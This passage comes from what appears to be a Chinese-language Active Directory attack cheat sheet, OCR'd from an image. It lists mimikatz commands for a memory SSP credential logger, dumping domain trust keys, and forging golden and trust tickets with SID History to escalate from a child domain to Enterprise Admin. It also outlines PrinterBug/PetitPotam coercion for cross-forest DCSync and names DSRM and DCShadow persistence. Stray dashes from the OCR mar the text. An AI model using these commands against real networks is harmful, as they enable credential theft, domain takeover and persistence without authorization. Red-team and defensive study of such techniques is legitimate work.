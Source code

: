 自定义 SSP DLL：-
mimikatz "privilege::debug" "misc::memssp" "exit"-
C:\\Windows\\System32\\kiwissp.log-

## 域信任关系

### 子域攻击父域 - SID History版跨域黄金票据



```
Get-NetGroup -Domain <domain> -GroupName "Enterprise Admins" -FullData|select objectsid-
-
mimikatz lsadump::trust-
-
kerberos::golden /user:Administrator /krbtgt:<HASH\_KRBTGT> /domain:<domain> /sid:<user\_sid> /sids:<RootDomainSID-519> /ptt-
```


### 利用域信任密钥获取目标域的权限 - 信任票据



```
"lsadump::trust /patch"-
"lsadump::lsa /patch"-
-
"kerberos::golden /user:Administrator /domain:<domain> /sid: -
<domain\_SID> /rc4:<trust\_key> /service:krbtgt /target:<target\_domain> /ticket:-
<golden\_ticket\_path>"-
```


### 攻击其它林

1-

利用ptintbug或petipotam漏洞使其它林的DC主动连接到本林的一台无约束委派主机，同时抓取发送过来的TGT，然后即可将它用于dcsync攻击-

## 活动目录持久性技巧

[https://adsecurity.org/?p=1929](https://adsecurity.org/?p=1929) DS恢复模式密码维护 DSRM密码同步

> Windows Server 2008 需要安装KB961320补丁才支持DSRM密码同步，Windows Server 2003不支持DSRM密码同步。KB961320:[https://support.microsoft.com/en-us/help/961320/a-feature-is-available-for-windows-server-2008-that-lets-you-synchroni,可参考：\[巧用DSRM密码同步将域控权限持久化\](http://drops.xmd5.com/static/drops/tips-9297.html)](https://support.microsoft.com/en-us/help/961320/a-feature-is-available-for-windows-server-2008-that-lets-you-synchroni,%E5%8F%AF%E5%8F%82%E8%80%83%EF%BC%9A[%E5%B7%A7%E7%94%A8DSRM%E5%AF%86%E7%A0%81%E5%90%8C%E6%AD%A5%E5%B0%86%E5%9F%9F%E6%8E%A7%E6%9D%83%E9%99%90%E6%8C%81%E4%B9%85%E5%8C%96](http://drops.xmd5.com/static/drops/tips-9297.html))

[DCshadow](https://www.dcshadow.com/)

##### Security Support Provider

